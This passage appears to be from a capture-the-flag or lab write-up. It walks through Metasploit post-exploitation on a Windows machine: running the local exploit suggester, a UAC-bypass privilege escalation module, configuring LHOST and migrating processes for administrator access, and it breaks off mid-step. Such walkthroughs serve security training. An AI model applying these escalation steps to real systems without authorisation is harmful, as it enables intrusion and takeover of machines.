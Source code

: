 These commands confirmed that I had access and provided environment details.

---

### 1️⃣3️⃣ Running Local Exploit Suggestions

For further enumeration and privilege escalation paths, I ran:

\`\`\`bash
$post/multi/recon/local_exploit_suggester
\`\`\`

This suggested possible exploits based on the current environment.

---

### 1️⃣4️⃣ Escalating Privileges

Following the suggestions, I executed a privilege escalation exploit:

\`\`\`bash
$exploit/windows/local/bypassuac_eventvwr
\`\`\`

---

### 1️⃣5️⃣ Backgrounding the Session

After running the exploit, I sent the session to the background to prepare for the next step:

\`\`\`bash
$background
\`\`\`

---

### 1️⃣6️⃣ Configuring Options Again

I opened the exploit options, set the Meterpreter session ID, and configured \`LHOST\` as \`tun0\`.

---

### 1️⃣7️⃣ Running the Exploit Again

With everything configured, I launched the exploit again:

\`\`\`bash
$exploit
\`\`\`

---

### 1️⃣8️⃣ Migrating to Gain Administrator Access

To fully escalate privileges, I migrated the session to another process:
